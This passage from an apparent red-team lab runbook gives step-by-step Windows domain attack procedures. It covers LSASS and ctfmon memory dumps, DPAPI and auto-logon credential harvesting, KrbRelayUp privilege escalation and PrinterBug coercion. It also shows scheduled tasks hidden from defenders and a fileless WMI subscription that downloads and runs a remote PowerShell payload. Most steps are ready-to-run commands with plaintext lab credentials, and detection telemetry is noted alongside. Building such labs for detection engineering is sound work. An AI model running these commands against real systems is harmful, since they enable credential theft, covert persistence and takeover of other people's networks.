**CADRE-specific notes:**
- mbr01 has auto-logon for `analyst_cloud` (per `04-vulnerabilities.yml`) → expect plaintext password in LSA
- LSASS PPL OFF per `04-vulnerabilities.yml` → all LSASS dump methods work
- Defender disabled per `04-vulnerabilities.yml` → no AV interference
- Domain Backup Key accessible from SYSTEM (DCSync rights via local admin on DC eventually)

**Cross-references:**
- Campaign_suggestions.md #90 (NetExec), #93 (DonPAPI), #94 (lsassy), #94 (`-M winscp`), #105 (SACL/audit policy detection)
- See Phase 3.5 (Credential Theft from SYSTEM) below for manual mimikatz + SharpHound

---

#### 3.5F — LSASS Credential Dump (T1003.001) ⭐ PRIMARY

**Why this is primary:** LSASS PPL is OFF. analyst_cloud has auto-logon → Type 2/11 logon in LSASS. SYSTEM + procdump can dump the process and extract NTLM hash + Kerberos tickets offline.

```bash
# Transfer procdump to mbr01
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c certutil -urlcache -split -f http://192.168.77.60:8080/procdump.exe C:\Users\Public\procdump.exe"';

# Dump LSASS (attempt 1: direct)
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c C:\Users\Public\procdump.exe -accepteula -ma lsass.exe C:\Users\Public\ls.dmp"';

# If direct fails (token issue), use schtasks as SYSTEM
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /create /tn CADRE-Procdump /ru SYSTEM /tr \"C:\Users\Public\procdump.exe -accepteula -ma lsass.exe C:\Users\Public\ls.dmp\" /sc once /st 00:00 /f"';
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /run /tn CADRE-Procdump"';
```

**Parse offline:**

```bash
# From Kali — download ls.dmp and extract credentials
pypykatz lsa minidump ls.dmp
# Or: mimikatz # sekurlsa::minidump ls.dmp → sekurlsa::logonpasswords
```

**Expected output:** analyst_cloud NTLM hash, Kerberos TGT/TGS, possibly other logged-on users.

**Telemetry:** Sysmon 10 (process access on lsass.exe), Endpoint API, cadre-e* candidates.

#### 3.5F-alt — Remote LSASS Dump via lsassy / NetExec (-M lsassy) 🆕

**Tool:** [lsassy v3.1.16](https://github.com/login-securite/lsassy) (Mar 23 2026) — 15+ LSASS dump methods in one tool. Also available as NetExec module.

**Why this alternative:** lsassy automates dump method selection. Auto-picks the best method per target (comsvcs, procdump, nanodump, dumpert, ppldump, silentprocessexit, etc.). More reliable than manual procdump + schtasks.

```bash
# From Kali against mbr01 (with admin creds from Phase 3 SQL chain)
lsassy -d child.cadre.local -u analyst_t1 -p 'T13r_An@lyst!' 192.168.77.22
# Auto-picks best method, dumps, parses, returns credentials

# OR via NetExec module
nxc smb 192.168.77.22 -u analyst_t1 -p 'T13r_An@lyst!' -M lsassy

# OR explicit method
lsassy -m nanodump -d child.cadre.local -u analyst_t1 -p 'T13r_An@lyst!' 192.168.77.22
```

**CADRE-specific notes:**
- Requires local admin on target (Phase 3 SQL chain gives us `analyst_t1` with sysadmin on mssql01; can also use `svc_mssql` + GodPotato for SYSTEM on mbr01)
- Should work in our lab since LSASS PPL is OFF (per `04-vulnerabilities.yml`)
- Best run from Kali to mbr01 (avoids AV/EDR issues on the target)

**When to use this over 3.5F:** Use lsassy when you want cleaner logon + better evasion. Use manual procdump + schtasks (3.5F) when you need to capture a specific process access pattern for testing detection rules.

**Telemetry:** Same as 3.5F — Sysmon EID 10 (LSASS access), EID 1 (dump method binary), WinSec 4663. Telemetry fingerprint identical for detection engineering purposes.

**Cross-references:** See Campaign_suggestions.md #94 for full lsassy v3.1.16 capabilities. Pairs with DonPAPI (3.5F-dpapi below) for full post-DA coverage.

#### 3.5F-dpapi — Remote DPAPI Credential Harvesting via DonPAPI 🆕

**Tool:** [DonPAPI v2.0+](https://github.com/login-securite/DonPAPI) — remote DPAPI credential harvesting with 12+ collectors (Chromium, Firefox, CredMan, MobaXterm, mRemoteNG, RDCMan, WiFi, VNC, SCCM, Vaults, WinSCP, PuTTY, PSReadLine history).

**Why this matters:** DPAPI-protected secrets are often the most valuable (saved browser creds, VPN creds, WiFi passwords, source-control tokens). DonPAPI automates extraction at scale and auto-dumps the Domain Backup Key for offline master-key decryption.

```bash
# From Kali against mbr01 (with admin creds + SYSTEM)
donpapi collect -u child.cadre.local/analyst_t1 -p 'T13r_An@lyst!' -d child.cadre.local -t 192.168.77.22
# Auto-fetches Domain Backup Key, dumps all master keys, decrypts all secrets
# Returns: Chrome/Firefox creds, CredMan entries, WiFi passwords, MobaXterm, etc.

# OR via NetExec module
nxc smb 192.168.77.22 -u analyst_t1 -p 'T13r_An@lyst!' -M donpapi

# Specific collectors only
donpapi collect -u analyst_t1 -p 'T13r_An@lyst!' -d child.cadre.local -t 192.168.77.22 --collectors Chromium,CredMan,WiFi
```

**CADRE-specific notes:**
- Requires SMB admin (Phase 3 + 3.5F gives this)
- DonPAPI v2.0+ GUI frontend is optional — CLI works fine for lab testing
- Pair with lsassy: `lsassy` for in-memory creds + `donpapi` for disk-based DPAPI secrets

**Telemetry:** Sysmon EID 1 (donpapi), file create on `C:\Users\*\AppData\Roaming\Microsoft\Credentials\*` and `C:\Users\*\AppData\Local\Google\Chrome\User Data\Default\Login Data`, WinSec 4663 (file access).

**Cross-references:** See Campaign_suggestions.md #93. Pairs with lsassy (3.5F-alt) for comprehensive post-DA coverage. Together cover 80% of remote cred extraction.

#### 3.5P — KrbRelayUp: LPE via Kerberos Relay (T1068 + T1558) 🆕

**Tool:** [KrbRelay](https://github.com/cube0x0/KrbRelay) + [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) — universal LPE via Kerberos relay + RBCD + S4U2Self in one executable. **No CVE, by-design bypass.**

**Why this matters:** Most LPE 0days (Token Impersonation WT039, PrintSpoofer, GodPotato) are patched on Server 2025. KrbRelayUp abuses default LDAP signing behavior to gain SYSTEM from any local user. Works when other LPE fails.

```bash
# On Windows (KrbRelayUp — needs local execution as standard user)
# Step 1: Transfer KrbRelayUp.exe to mbr01 (via any standard-user RCE — e.g., WT063 file detonation)
# Step 2: Run the relay
KrbRelayUp.exe relay -d child.cadre.local -cn "EVILBOX$" -cp "Pwn3dByR3lay!" -l 1337
# Creates new computer EVILBOX$, sets RBCD on target, abuses S4U2Self → SYSTEM
```

**Pre-conditions:**
- Standard user with local execute permission (any Phase 1-3 foothold)
- LDAP signing not enforced on DC (default for many AD configs)
- Server 2025: works if COM CLSID `90f18417-f0f1-484e-9d3c-59dceee5dbd8` is valid (verify per-target)

**Telemetry:**
- **WinSec 4742** (Computer Account Created) — `EVILBOX$` creation by low-priv user = HIGH signal
- **WinSec 4673** (Sensitive Privilege Use) — `SeEnableDelegationPrivilege` by non-admin
- **WinSec 4662** (DS Object Accessed) — RBCD write on target computer
- **Elastic KQL candidate**: `event.code:4742 AND (winlog.event_data.SubjectUserName:analyst_cloud OR SubjectUserName:intern_blue OR SubjectUserName:svc_mssql)`

**Cross-references:** See Campaign_suggestions.md #95. Pairs with bloodyAD for cleaner Linux-side RBCD setup. Replaces named pipe impersonation (WT039) and token dance (WT041) for non-DC targets.

**Status:** ⏳ Pending — needs `KrbRelayUp.exe` (compile or pre-built). Test on mbr01 with low-priv user. Verify EVILBOX$ cleanup post-test.

---

#### 3.5A — Winlogon Registry (T1552.002) ⭐ BACKUP

**Why backup:** If LSASS dump fails, auto-logon stores the password in plaintext in the registry. This is misconfiguration discovery — same class as GPP cpassword, unattended.xml, service account strings in registry.

```bash
# Read auto-logon credentials from SYSTEM
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v DefaultUserName"';
-- → analyst_cloud

EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v DefaultPassword"';
-- → Cl0ud_An@lyst!

EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v DefaultDomainName"';
-- → CADRE
```

**Result:** `CADRE\analyst_cloud:Cl0ud_An@lyst!` — plaintext domain credentials.

**Real-world classification:** Misconfiguration discovery. Reportable finding. Many environments have auto-logon configured for kiosks, shared workstations, lab environments.

**Telemetry:** Sysmon 12/13 (registry read on Winlogon), then 4624 Type 3/10 when credential is used.

---

#### 3.5G — Offensive DPAPI (Nemesis)

**Source:** [https://specterops.io/blog/2026/03/04/offensive-dpapi-with-nemesis/](https://specterops.io/blog/2026/03/04/offensive-dpapi-with-nemesis/)
**Tool:** Nemesis 2.2+

Automates DPAPI decryption chain — SYSTEM/user masterkeys → CNG keys → Chromium App-Bound encryption. With SYSTEM on mbr01, we can decrypt any user's DPAPI-protected data (saved credentials, browser passwords, RDP files).

**Prerequisite:** Stage saved creds in analyst_cloud profile (browser, RDP file). Empty profile = weak demo.

**Why this works on default Server 2025:** DPAPI is independent of LSASS PPL and Credential Guard. It protects data at rest, not in memory.

```bash
# Deploy Nemesis to mbr01
# Extract DPAPI masterkeys as SYSTEM
# Decrypt analyst_cloud's saved credentials
```

**Telemetry:** Sysmon EID 1/10, file access.

---

#### 3.5H — ctfmon.exe Password Extraction (Windows 11 Input Telemetry)

**Source:** [https://hexderef.com/windows-11-passwords-in-memory-lsass-ctfmon-analysis](https://hexderef.com/windows-11-passwords-in-memory-lsass-ctfmon-analysis)

Typed passwords (PuTTY, WinSCP, MySQL, SSH) remain in `ctfmon.exe` memory AFTER the application closes. `ctfmon.exe` is NOT a protected process (unlike LSASS with PPL). SYSTEM can read its memory directly.

**Why this works on default Server 2025:**

- `ctfmon.exe` is NOT protected by PPL
- Credential Guard doesn't protect typed passwords (only Windows auth secrets)
- Passwords remain in memory minutes/hours after app close
- Even non-admin malware can read ctfmon.exe memory

**Limitation:** analyst_cloud must have typed a password into PuTTY/WinSCP/MySQL/SSH for this to work. Auto-logon doesn't generate typed passwords.

```bash
# Dump ctfmon.exe memory via SYSTEM
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c C:\Users\Public\procdump.exe -accepteula -ma ctfmon.exe C:\Users\Public\ctfmon.dmp"';

# Download and parse
# Search for typed passwords in dump file
```

**Telemetry:** Sysmon EID 10 (process access on ctfmon.exe).

---

#### 3.5B — Scheduled Task as analyst_cloud (Post-Credential)

**Prerequisite:** Password known from 3.5A or 3.5F.

**Best spine fit after 3.5A** — once password is known, create a scheduled task running as analyst_cloud:

```bash
# Create task running as analyst_cloud
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /create /tn CADRE-SharpHound /tr \"C:\Tools\SharpHound.exe -c All -d child.cadre.local --outputdirectory C:\Users\analyst_cloud\Documents\" /sc once /st 00:00 /ru CADRE\analyst_cloud /rp Cl0ud_An@lyst! /f"';

# Run the task
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /run /tn CADRE-SharpHound"';
```

**Alternatives:** PsExec, WMI, runas (non-interactive with password pipe).

**Telemetry:** 4698 (task create), 4699 (task run), 4624 with TargetUserName=analyst_cloud, Sysmon 1 parent = svchost.exe/taskeng.exe.

**Playbook anchor:** `06-member-services.yml` — auto-logon password + `C:\Tools` directory.

##### Invisible Scheduled Tasks (Security Descriptor Deletion)

**Source:** DbgMan — Persistence: Advanced Red Team Persistence Techniques
**MITRE:** T1053.005

After creating the task, delete its Security subkey from the registry. The task still executes on schedule but becomes completely invisible to:

- `schtasks /query`
- Task Scheduler GUI
- PowerShell `Get-ScheduledTask`
- Autoruns

**Why this works on Server 2025:** The task is still registered in the TaskCache — only the Security descriptor that controls enumeration/display is removed. Blue teams need raw registry access under SYSTEM to find it.

```bash
# Create task (existing 3.5B)
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /create /tn CADRE-SharpHound /tr \"C:\Tools\SharpHound.exe -c All -d child.cadre.local --outputdirectory C:\Users\analyst_cloud\Documents\" /sc once /st 00:00 /ru CADRE\analyst_cloud /rp Cl0ud_An@lyst! /f"';

# Delete Security subkey — makes task invisible
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c reg delete \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\CADRE-SharpHound\Security\" /f"';

# Verify invisible
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /query /tn CADRE-SharpHound"';
-- → ERROR: The system cannot find the file specified.

# Run the task anyway — still works
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c schtasks /run /tn CADRE-SharpHound"';
```

**Detection:** Sysmon 12/13 (registry delete on TaskCache\Security). Blue team must enumerate `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\` directly under SYSTEM to find orphaned tasks.

---

#### 3.5C — RDP Interactive Session (Full SharpHound)

**From Kali after 3.5A** (password known):

```bash
xfreerdp /v:192.168.77.22 /u:analyst_cloud /p:'Cl0ud_An@lyst!' /d:CADRE /cert-ignore
```

**Why it's valuable:** Real Type 10 logon — best fidelity for SharpHound session collection, DCOM users, local admin edges. Cross-domain auth works via trust.

**Telemetry:** 4624 Logon Type 10, Sysmon 3 to port 3389, Endpoint network.

---

#### 3.5D — File Detonation (WT063-068) — Telemetry Path

**Purpose:** Initial-access simulation and H telemetry. Not the fastest spine path.

```bash
# SYSTEM drops payload to analyst_cloud's Downloads
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c echo [payload] > C:\Users\analyst_cloud\Downloads\update.ps1"';

# Victim opens file (autologon = console session exists)
# Code runs as analyst_cloud
```


| WT# | Technique               | Credential Yield     |
| --- | ----------------------- | -------------------- |
| 063 | LNK → Mimikatz as user  | Limited token (weak) |
| 065 | CHM → fake login CredUI | Plaintext password   |
| 068 | EXE → certutil stealer  | Stored creds         |


**Gap:** Current H scripts are detection demos (create in %TEMP%, delete). For cred theft, payload must exfiltrate (HTTP POST to Kali :8080).

**Telemetry:** Sysmon 1/11/15, Zeek http.log if download from Kali :8080.

---

#### 3.5E — Logon Trigger Without User Click

**If autologon session exists but user won't click:**

```bash
# Copy SharpHound to Startup folder
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c copy C:\Tools\SharpHound.exe C:\Users\analyst_cloud\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\sharp.exe"';

# Reboot mbr01
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c shutdown /r /t 0"';
```

**Result:** Autologon fires → Startup runs as analyst_cloud → SharpHound executes.

**Telemetry:** 4624 Type 2/11 (interactive/batch at logon), Sysmon 1 at logon.

**Playbook dependency:** User profile must exist — verify `C:\Users\analyst_cloud` after first autologon.

---

#### 3.5I — Token Impersonation — analyst_cloud ❌

**Status:** Token impersonation failed with error 1346 (ERROR_NO_SUCH_LOGON_SESSION). Not a Microsoft patch — session isolation between xp_cmdshell (session 0) and analyst_cloud (session 1). The PowerShell script we wrote was also buggy (nested quoting, wrong handle context).

**Correct approach:** Use incognito.exe or mimikatz for token theft (not our broken PowerShell script). However, 3.5F (LSASS dump) is more reliable and doesn't require session context.

---

#### 3.5J — WMI Event Subscriptions — Fileless Persistence (T1546.003)

**Source:** DbgMan — Persistence: Advanced Red Team Persistence Techniques

Install WMI event subscriptions via SYSTEM. No disk artifacts, no registry run keys, no scheduled tasks — completely fileless. Survives reboots. Blue teams need Sysmon Event IDs 19/20/21 to catch this.

**Why this works on Server 2025:**

- No disk artifacts (fileless)
- Not visible in Autoruns, Run keys, or Scheduled Task scanners
- Survives reboots
- Requires Sysmon 19/20/21 for detection (most labs don't have it)

**Prerequisite:** SYSTEM on mbr01 via GodPotato.

```bash
# Install WMI event subscription via SYSTEM
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c powershell.exe -ep bypass -w hidden -c "
$filter = ([wmiclass]\"\\\\.\\root\\subscription:__EventFilter\").CreateInstance();
$filter.Name = \"CADRE-WMI-Persistence\";
$filter.QueryLanguage = \"WQL\";
$filter.Query = \"SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA '\''Win32_PerfFormattedData_PerfOS_System'\'' AND TargetInstance.SystemUpTime >= 60\";
$filter.EventNamespace = \"Root\\Cimv2\";
$filter.Put();
$consumer = ([wmiclass]\"\\\\.\\root\\subscription:CommandLineEventConsumer\").CreateInstance();
$consumer.Name = \"CADRE-WMI-Consumer\";
$consumer.CommandLineTemplate = \"powershell.exe -ep bypass -w hidden -c IEX (New-Object Net.WebClient).DownloadString('\''http://192.168.77.60:8080/shell.ps1'\'')\";
$consumer.Put();
$binding = ([wmiclass]\"\\\\.\\root\\subscription:__FilterToConsumerBinding\").CreateInstance();
$binding.Filter = $filter.Path;
$binding.Consumer = $consumer.Path;
$binding.Put();
"';
```

**Alternative (single-line from xp_cmdshell):**

```sql
-- Write the PowerShell script to disk first, then execute
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c certutil -urlcache -split -f http://192.168.77.60:8080/wmi-persist.ps1 C:\Users\Public\wmi-persist.ps1"';
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c powershell.exe -ep bypass -f C:\Users\Public\wmi-persist.ps1"';
```

**Verify subscription exists:**

```sql
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c wmic /namespace:\\root\subscription PATH __EventFilter GET Name"';
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c wmic /namespace:\\root\subscription PATH CommandLineEventConsumer GET Name"';
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c wmic /namespace:\\root\subscription PATH __FilterToConsumerBinding GET Filter,Consumer"';
```

**Cleanup (remove subscription):**

```sql
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c powershell.exe -ep bypass -c Get-WmiObject -Namespace root\\subscription -Class __EventFilter -Filter \"Name='\''CADRE-WMI-Persistence'\''\" | Remove-WmiObject; Get-WmiObject -Namespace root\\subscription -Class CommandLineEventConsumer -Filter \"Name='\''CADRE-WMI-Consumer'\''\" | Remove-WmiObject; Get-WmiObject -Namespace root\\subscription -Class __FilterToConsumerBinding | Where-Object {$_.Filter -like \"*CADRE-WMI*\"} | Remove-WmiObject"';
```

**Telemetry:** Sysmon 19 (WMI EventFilter), 20 (WMI EventConsumer), 21 (WMI FilterToConsumerBinding). These are the only reliable detection paths — no other standard telemetry captures WMI subscription creation.

---

#### 3.5K — LSASS Dump via WerFault (T1003.001) ⏳

**Source:** iPurple.team (2025-11-18)
**MITRE:** T1003.001 (OS Credential Dumping: LSASS Memory)

WerFaultSecure is a Microsoft-signed binary that can dump LSASS memory. Stealthier than procdump (which is often flagged by EDR). Works by triggering a crash dump via Windows Error Reporting.

**Why this works on Server 2025:**

- WerFaultSecure is Microsoft-signed (trusted binary)
- Not flagged by most EDR solutions
- Dumps LSASS to file for offline extraction
- Works even when procdump is blocked

**Test plan:**

1. Via xp_cmdshell as SYSTEM: trigger WerFault LSASS dump on mbr01
2. Extract dump file → offline extraction with pypykatz/mimikatz
3. Compare with 3.5F (procdump) — which is stealthier?

**Detection:** Sysmon EID 1 (WerFaultSecure.exe with LSASS target), EID 11 (dump file creation).

---

#### 3.5L — LAPS Extraction (T1552.004) ⏳

**Source:** Zero Point Security RTO 2025
**MITRE:** T1552.004 (Unsecured Credentials: Private Keys)

Local Administrator Password Solution (LAPS) manages unique local admin passwords per machine, stored in AD. If compromised, gives local admin on any LAPS-managed machine.

**Why this works on Server 2025:**

- LAPS passwords stored in AD as `ms-Mcs-AdmPwd` attribute
- Requires Read permission on the attribute (not default for regular users)
- Can be extracted via LDAP if permissions allow
- New Windows LAPS stores password in AD or Azure AD

**Test plan:**

1. From Kali with domain user creds: `ldapsearch -x -H ldap://dc01.cadre.local -b "DC=cadre,DC=local" "(ms-Mcs-AdmPwd=*)" ms-Mcs-AdmPwd`
2. Or via PowerShell: `Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | Select-Object Name, ms-Mcs-AdmPwd`
3. Check: which users have Read permission on LAPS attribute?

**Detection:** WinSec 4662 (AD object access — reading LAPS password attribute), Sysmon EID 1 (LDAP query for LAPS attributes).

---

#### 3.5M — Azure AD Connect DPAPI Dump (T1555) ⏳

**Source:** dirkjanm.io (2019)
**Tool:** adconnectdump ([https://github.com/fox-it/adconnectdump](https://github.com/fox-it/adconnectdump))
**MITRE:** T1555 (Credentials from Password Stores)

CADRE has the Cloud Sync agent on dc01. The MSOL account credentials are stored using DPAPI. Once SYSTEM is obtained, adconnectdump can extract these credentials and pivot to Entra ID.

**Why this matters:**

- This is the bridge from on-prem (Phase 3 SYSTEM) to cloud (Plan 11 EntraGoat)
- One compromise = on-prem + cloud compromise
- Cloud Sync agent access is heavily monitored in real environments

**Test plan:**

1. Get SYSTEM on dc01 (via Phase 3 chain or direct)
2. Run adconnectdump on dc01
3. Extract MSOL account credentials
4. Use ROADtools to authenticate to Entra ID
5. Enumerate users, groups, applications

**Detection:** Sysmon EID 1 (adconnectdump.exe), file create events on MSOL credential files, Azure AD sign-in log — MSOL from unusual IP.

**Bridge to Plan 11 (Cloud/Entra ID) — BARK as primary tool 🆕:**

After extracting MSOL credentials via adconnectdump, the next attack surface is **Azure/Entra ID**. Per `docs/internal/references/ad-tools-landscape-2026-06-24.md`, the primary tool for Azure/Entra ID abuse validation is **BARK (BloodHound Attack Research Kit)** — https://github.com/BloodHoundAD/BARK.

```powershell
# In EntraGoat (separate Azure tenant for Plan 11 testing)
# 1. Clone BARK
git clone https://github.com/BloodHoundAD/BARK
# 2. Import module
Import-Module .\BARK.ps1
# 3. Enumerate Entra ID
Get-AllEntraApps
Get-AllEntraUsers
Get-AllEntraGroups
Get-EntraTierZeroServicePrincipals
# 4. Test abuse primitives
Invoke-AllEntraAbuseTests
```

**Why BARK for Plan 11:** BARK has 80+ functions for Azure/Entra ID abuse — token management, Entra enumeration, AzureRM enumeration, Intune enumeration, abuse functions, meta-testing functions. It's the **Azure/Entra equivalent of bloodyAD** for on-prem AD. Same author CravateRouge contributes to both. Used by SpecterOps to validate Azure abuse primitives as Microsoft ships patches.

**CADRE mapping:** Plan 11 is held until after main spine (Phases 0-8 + branches) is verified. When we reach Plan 11:
- Use BARK for: Entra ID enumeration, abuse chain testing, Intune exploration
- Use **ROADtools** (Dirk-jan) for: token acquisition, Graph API exploration
- Use **AADInternals** (Gerenios) for: legacy Azure AD attack primitives
- Use **AzureHound** (marklindner11) for: BloodHound data ingest for Entra ID

**Cross-references:** See Campaign_suggestions.md #96 for full BARK function inventory. Pairs with bloodyAD (#91) — same author, different domain. Plan 11 items #69-75 (Dirk-jan's Cloud Kerberos Trust, Actor Tokens, PRT Phishing, Intune ADCS, TAP, Federated Creds, App Admin) all use BARK as the validation framework.

---

#### 3.5N — UnCanny LPE: Non-Admin → SYSTEM via InstallService (T1068, T1574.001) ⏳

**Source:** 0xHossam/UnCanny ([https://github.com/0xHossam/UnCanny](https://github.com/0xHossam/UnCanny), 2026-06-19) — same technique as WT094, but with DLL present = SYSTEM shell
**MITRE:** T1068 Exploitation for Privilege Escalation, T1574.001 Hijack Execution Flow (DLL Side-Loading)

This is the **direct EoP** version of UnCanny (3.5N pairs with WT094 coercion). If the attacker can serve a real DLL via SMB (Samba required — impacket returns `ERROR_INVALID_HANDLE` for `LoadLibraryW`), `DllMain` runs as `NT AUTHORITY\SYSTEM` inside `svchost.exe` (the `InstallService` host).

**Pre-conditions (same as WT094):**

- Standard user on Win 10/11 OR Server 2022/2025
- **Developer Mode enabled** (`HKLM\...\AppModelUnlock\AllowDevelopmentWithoutDevLicense = 1`)
- `InstallService.exe` + `AppXSvc` running (default)

**Difference from WT094:** Real DLL must exist on the share. Author confirmed impacket fails for the loadable-image case but Samba works (Samba reports NTFS by default so loose registration still works).

**Test plan (gated on WT094 success):**

1. Compile `lpe/lpe.c` and `lpe/plugin.c` (from cloned repo) as a DLL with `DllMain` that spawns reverse shell
2. Stage on Samba share (not impacket) — `apt install samba` if not present
3. Same trigger as WT094 but with DLL present at the UNC
4. Confirm `NT AUTHORITY\SYSTEM` shell in `svchost.exe` context (token check)
5. Direct SYSTEM — no GodPotato/PrintSpoofer needed

**Why this is significant for CADRE:**

- **Direct SYSTEM from any standard user** — bypasses our existing EoP chain (xp_cmdshell → GodPotato)
- Useful when we don't have SQL access (Branch D Linux pivot, Phase 3 alternative paths)
- Demonstrates why Microsoft Defender's RPC activity monitoring (added in 2024) was the wrong path to block — UnCanny goes via AppX/AppXSvc, not RPC

*Detection (cadre-e candidates):**

- `svchost.exe` (hosting InstallService) mapping remote DLL — `logs-endpoint.events.file-`* or ETW `Microsoft-Windows-Threat-Intelligence`
- `DllMain` thread context: `NT AUTHORITY\SYSTEM` executing in `svchost.exe` spawned by AppX service
- `CreateInstallServiceWork` COM invocation from non-system context

**Status:** 🔬 Deferred — gated on Developer Mode + Samba setup. Per user 2026-06-19: "document only, defer test" — see Campaign_suggestions.md Track G.

---

---

### Phase 4 — Discovery (BloodHound as analyst_cloud)


Phase 3 gave us `analyst_cloud`'s token on mbr01 via file delivery. Now we run BloodHound from this domain-joined context to map the full attack surface.

**Why from mbr01 and not Kali?** SharpHound has different collection methods:

- **From Kali** (any domain user): `-c Group,ACL,Trust` — LDAP-only data (users, groups, ACLs, trusts). No session data.
- **From domain-joined machine** (analyst_cloud): `-c All` — everything above plus local session data, local group memberships, logged-on users, GPO mappings.

Session data reveals attack paths invisible from LDAP alone (e.g., a user who's local admin on multiple machines).

#### Step 1 — Transfer SharpHound to mbr01

```bash
# From Kali: serve SharpHound on HTTP :8080
python3 -m http.server 8080 --directory /opt/SharpHound/

# From analyst_cloud context on mbr01:
certutil -urlcache -split -f http://192.168.77.60:8080/SharpHound.exe SharpHound.exe
```

#### Step 2 — Run SharpHound as analyst_cloud

```bash
SharpHound.exe -c All -d child.cadre.local --outputdirectory C:\Users\analyst_cloud\Documents
```

#### Step 3 — BloodHound analysis

Load the zip into BloodHound CE and run Cypher queries:

```cypher
// All ACE edges from the credential chain so far
MATCH p=(u:User {name:"SVC_MSSQL@CHILD.CADRE.LOCAL"})-[r]->(target) RETURN p

// All ForceChangePassword paths (any domain)
MATCH p=(u:User)-[r:ForceChangePassword]->(t:User) RETURN p

// All GenericAll/GenericWrite edges
MATCH p=(u:User)-[r:GenericAll|GenericWrite]->(t) RETURN p

// Machines with unconstrained delegation
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

// ADCS vulnerable templates
MATCH (ct:CertTemplate) WHERE ct.requiresmanagerapproval=false RETURN ct
```

**Key findings that define the rest of the campaign:**


| Finding                                                     | Leads to                                                      | Why                                                                       |
| ----------------------------------------------------------- | ------------------------------------------------------------- | ------------------------------------------------------------------------- |
| `mbr01$` has `TrustedForDelegation = true`                  | **Phase 5** — Coerce dc02$ to auth → capture TGT              | Coercion forces the DC to auth; unconstrained delegation captures its TGT |
| ACE#7: `hunter_dfir` → `chief_command`: ForceChangePassword | **Branch A** — Direct DA escalation in cadre.local            | Fastest path to root domain DA                                            |
| ACE#3/4/5/1: Various ACL paths                              | **Branch A** — WriteDacl, GenericWrite, GPO abuse             | Multiple independent routes to DA                                         |
| AD CS templates with ESC vulnerabilities                    | **Branch B** — Certificate-based DA                           | ESC1-14 deployed on dc01                                                  |
| `svc_sccm` has SCCM Full Admin + SPN                        | **Phase 8 / Branch C** — Cross-forest Kerberoast → SCCM chain | Requires range.local access to exploit                                    |
| MSSQL linked server to linux01                              | **Branch D** — Linux post-exploit                             | SQL-on-Linux pivot path                                                   |


### Phase 5 — Lateral Movement (Coercion + Delegation)


**This path was discovered in Phase 4:** BloodHound showed `mbr01$` has `TrustedForDelegation = True`. Without that discovery, we'd never know coercion was viable.


|                         |                                                       |
| ----------------------- | ----------------------------------------------------- |
| **Target**              | dc02 (.11) — coerced to auth to mbr01                 |
| **Source of this path** | BloodHound finding: `mbr01$` unconstrained delegation |
| **From**                | mbr01 (Rubeus monitor) + Kali (Coercer)               |


1. **Coercer** from Kali triggers `dc02$` to authenticate to mbr01 via MS-RPRN (PrinterBug)

# From Kali: Coerce dc02$ to auth to mbr01

coercer coerce -l 192.168.77.22 -t 192.168.77.11 -d child.cadre.local  
  -u svc_mssql -p 's3rv1c3_MSSQL!' --spoolsample

```

#### Alternative Coercion Techniques

| WT# | Protocol | Tool Flag | Status |
|:---:|:---------|:----------|:-------|
| 017 | MS-RPRN (PrinterBug) | `--spoolsample` | ✅ Confirmed (12 fires per testing) |
| 018 | MS-EFSR (PetitPotam) | `--petitpotam` | ❌ Not on Server 2025 — `\PIPE\efsrpc` blocked |
| 019 | MS-DFSNM (DFSCoerce) | `--dfscoerce` | ❌ SMB-pipe DCE-RPC not supported by Suricata |
| 020 | MS-FSRVP (ShadowCoerce) | `--shadowcoerce` | ❌ Service not available on Server 2025 |
| 094 | **UnCanny Coerce (InstallService)** | `Invoke-InstallServiceCoerce.ps1` | 🔬 Deferred — requires Developer Mode on target VM + admin change to playbook (Track G) |
| 095 | **Onelogon Zero-Channel (single-channel NRPC)** | `python3 onelogon.py --set-password` | ⏳ Pending — gated on author PoC release (WOOT 2026, 2026-06-24). Bypasses ALL post-Zerologon hardening via `\PIPE\netlogon` over SMB/445. See Campaign_suggestions.md #76 |
